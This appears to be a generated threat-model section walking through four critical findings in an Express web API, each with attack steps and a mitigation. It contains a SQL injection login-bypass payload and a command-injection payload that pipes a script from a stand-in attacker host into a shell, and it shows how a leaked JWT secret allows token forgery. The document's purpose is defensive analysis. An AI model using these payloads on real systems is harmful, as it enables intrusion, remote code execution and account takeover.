




## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited — one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. How weaknesses combine toward the worst-case goal is in the [Critical Attack Tree](#critical-attack-tree); full per-finding context (severity rationale, assets, detection signals) is in the [§8 Findings Register](#8-findings-register).

### 3.1 SQL injection request data interpolated into a SQL string in Express Web API

**Source:** 🔴 [F-003](#f-003) — `server.js:12`

Severity **Critical** (CWE-89). STRIDE: Tampering. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. Find the request parameter that reaches the raw query at `server.js:12`.
2. Interpolating request-controlled text into a SQL statement lets an attacker alter the query — exfiltrating or modifying arbitrary rows, bypassing authentication, or escalating to full database control.

**Sequence Diagram**

**Key takeaway:** Until [M-003](#m-003) (Use parameterized database queries) lands, F-003 is exploitable at `server.js:12` (Critical-severity, CWE-89).

**Defense in Depth**

- Primary mitigation: ● [M-003](#m-003) (Use parameterized database queries)

### 3.2 SQL Injection authentication bypass in Express Web API

**Source:** 🔴 [F-001](#f-001) — `server.js:12`

Severity **Critical** (CWE-89). STRIDE: Spoofing. See [§8 F-001](#f-001) for the full register row.

**Attack Steps**

1. Attacker posts `/login` with email=`' OR '1'='1' --` and arbitrary password, submitting a tautological predicate to the login SQL handler.
2. The interpolated query `SELECT id, role FROM users WHERE email = '' OR '1'='1' --' AND password = '...'` returns the first user row without password verification.
3. Server passes the returned user object to `signJwt()` and issues a fully valid JWT for the impersonated identity.
4. Attacker uses the forged JWT to access admin-only operations and all user data under the impersonated identity.

**Sequence Diagram**

**Key takeaway:** Until [M-001](#m-001) (Use parameterized database queries) lands, F-001 is exploitable at `server.js:12` (Critical-severity, CWE-89).

**Defense in Depth**

- Primary mitigation: ● [M-001](#m-001) (Use parameterized database queries)

### 3.3 OS command injection in Authentication and Session Middleware

**Source:** 🔴 [F-002](#f-002) — `server.js:23`

Severity **Critical** (CWE-78). STRIDE: Tampering. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. Attacker sends POST `/admin/export` with JSON body `{"path": ". && curl attacker.com/shell.sh | sh"}`, requiring no authentication.
2. `exec()` at `server.js:23` expands the template literal to `tar -czf /tmp/export.tgz . && curl attacker.com/shell.sh | sh` and passes it to `/bin/sh`.
3. The injected command executes with the application's OS user privileges, enabling data exfiltration, credential theft, or persistent backdoor installation.

**Sequence Diagram**

**Key takeaway:** Until [M-002](#m-002) (Enforce authentication and shell-safe invocation on /admin/e) lands, F-002 is exploitable at `server.js:23` (Critical-severity, CWE-78).

**Defense in Depth**

- Primary mitigation: ● [M-002](#m-002) (Enforce authentication and shell-safe invocation on /admin/export)

### 3.4 Unauthenticated debug environment endpoint in Express Web API

**Source:** 🔴 [F-004](#f-004) — `server.js:41`

Severity **Critical** (CWE-215). STRIDE: Information Disclosure. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. Attacker sends GET `/debug/environment` to the public API without any credentials or special headers.
2. Server responds with HTTP 200 and a JSON body containing all keys from `process.env`, including `JWT_SECRET`, `OPENAI_API_KEY`, and database connection strings.
3. Attacker uses the JWT secret (`e2e-fixture-jwt-secret-7f4c91` or its production equivalent) to sign arbitrary JWT payloads for any user ID and role.

**Sequence Diagram**

**Key takeaway:** Until [M-004](#m-004) (Remove the /debug/environment endpoint and source-managed JW) lands, F-004 is exploitable at `server.js:41` (Critical-severity, CWE-215).

**Defense in Depth**

- Primary mitigation: ● [M-004](#m-004) (Remove the /debug/environment endpoint and source-managed JWT secret from production)

<!-- generated:walkthrough_renderer -->
